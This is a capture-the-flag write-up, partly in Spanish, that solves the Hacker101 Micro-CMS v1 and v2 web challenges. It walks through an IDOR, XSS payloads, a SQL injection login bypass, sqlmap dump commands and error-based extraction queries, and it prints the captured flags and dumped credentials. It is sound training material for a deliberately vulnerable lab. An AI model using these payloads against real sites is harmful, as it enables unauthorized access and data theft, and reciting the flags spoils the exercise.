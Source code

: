 # HackerOne Hacker101 CTF

## Micro-CMS v1
### Web - Easy (2/flag)

### Hints
* Flag0
	* Try creating a new page
	* How are pages indexed?
	* Look at the sequence of IDs
	* If the front door doesn't open, try the window
	* In what ways can you retrieve page contents?
* Flag1
	* Make sure you tamper with every input
	* Have you tested for the usual culprits? XSS, SQL injection, path injection
	* Bugs often occur when an input should always be one type and turns out to be another
	* Remember, form submissions aren't the only inputs that come from browsers
* Flag2
	* Sometimes a given input will affect more than one page
	* The bug you are looking for doesn't exist in the most obvious place this input is shown
* Flag3
	* Script tags are great, but what other options do you have?

![](img/level01.png)

```html
<!doctype html>
<html>
  <head>
    <title>Micro-CMS</title>
  </head>
  <body>
    <ul>
      <li><a href="page/1">Testing</a></li>
      <li><a href="page/2">Markdown Test</a></li>
    </ul>
    <a href="page/create">Create a new page</a>
  </body>
</html>
```

### Flag0 - Access to private page

* /page/7 -> Forbidden
* /page/edit/7 -> OK

![](img/level01-edit.png)


### Flag1 - XSS on Title

Create new page and inject XSS on "Title" input.
```
<script>alert(1)</script>
```

![](img/level01-xss.png)


### Flag2 - SQLi

Page edit parameter is vulnerable to SQLi, no need to exploit

```	
/page/edit/1'
```

### Flag3 - XSS on "Body"

**script** tag is filtered in body, but we can use `img onerror`
```
<img src="x" onerror="alert(1)">
```


## Micro-CMS v2
### Web - Moderate (3/flag)	

![](img/level02.png)

### Hints
* Flag0
	* Regular users can only see public pages
	* Getting admin access might require a more perfect union
	* Knowing the password is cool, but there are other approaches that might be easier
* Flag1
	* What actions could you perform as a regular user on the last level, which you can't now?
	* Just because request fails with one method doesn't mean it will fail with a different method
	* Different requests often have different required authorization
* Flag2
	* Credentials are secret, flags are secret. Coincidence?


Version 2
This version fixed the multitude of security flaws and general functionality bugs that plagued v1. Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20. By default, users need to be an admin to add or edit pages now.



### Login

Probamos credenciales por defecto `admin:admin`, obtenemos el error `Unknown user`.



#### Error SQL
Si inyectamos una comilla, la aplicación nos devuelve un error y nos muestra parte de su código.
```python
cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
```

Inyectamos en el usuario `' or '1'='1` y nos devuelve el error `Invalid password`.


#### Bypass con UNION SELECT
Conociendo como se forma la sentencia SQL, utilizamos *UNION* para lograr el bypass del login.

User: `' UNION SELECT 'patatas' -- -`

Pass: `patatas`


![](img/level02-page3.png)


#### SQLmap

```bash
sqlmap -u 'http://HOST/login' --data 'username=admin&password=password' -D level2 --dump
```

```
Database: level2

Table: admins
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | cecille  | leila    |
+----+----------+----------+

Table: pages
+----+-------------------------------------------------------------------------------------------+--------------+--------+
| id | body                                                                                      | title        | public |
+----+-------------------------------------------------------------------------------------------+--------------+--------+
| 3  | My secret is ^FLAG^b7d3ca34a21796c1de180295a9975cfe2e939126ff6ae752979dbecf7304966f$FLAG$ | Private Page | 0      |
+----+-------------------------------------------------------------------------------------------+--------------+--------+
```

Si accedemos con las credenciales de *cecille* obtenemos una de las flags.
`^FLAG^a15713efda8be73a564145daa870f20ddf526f9c1f1d6b80febbf4f976477a05$FLAG$`

#### SQLi

Extract info with error based
```
username=' and extractvalue(0,concat(0x7c,version(),0x7c))--+--+-&password=
OperationalError: (1105, "XPATH syntax error: '|10.1.37-MariaDB-0+deb9u1|'")
```

```
database() -> level2
SELECT table_name FROM information_schema.tables WHERE table_schema='level2' LIMIT 0,1 -> admins
SELECT table_name FROM information_schema.tables WHERE table_schema='level2' LIMIT 1,1 -> pages
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='level2' AND table_name='admins' -> id,username,password
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='level2' AND table_name='pages' -> id,public,title,body
SELECT concat(id,0x7c,username,0x7c,password) FROM level2.admins LIMIT 0,1 -> |1|cecille|leila|
```

### Modificar pagina sin estar autenticado

Otra de las vulnerabilidades de esta aplicación es la posibilidad de modificar una pagina sin necesidad de estar autenticado.


```bash
curl http://HOST/page/edit/2 --data 'title=Patatas&body=Deluxe'
^FLAG^4e8ac2f8652f2fd59bff813bf53eea3b06f5a4f2e8761ee10bf0521df6a51ee2$FLAG$
```
